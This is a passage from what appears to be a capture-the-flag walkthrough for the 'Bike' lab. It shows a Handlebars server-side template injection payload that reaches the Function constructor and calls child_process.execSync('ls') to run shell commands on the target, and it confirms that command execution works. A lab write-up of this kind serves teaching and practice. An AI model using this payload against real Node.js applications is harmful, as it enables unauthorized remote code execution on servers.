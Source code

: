 ```
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![Globals](./Screenshots/bikeglobal3.png)

It works. Great information, we can execute commands.

### Get the flag

Let's look for a flag. 

First of all, I suggest to try with `ls`.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
```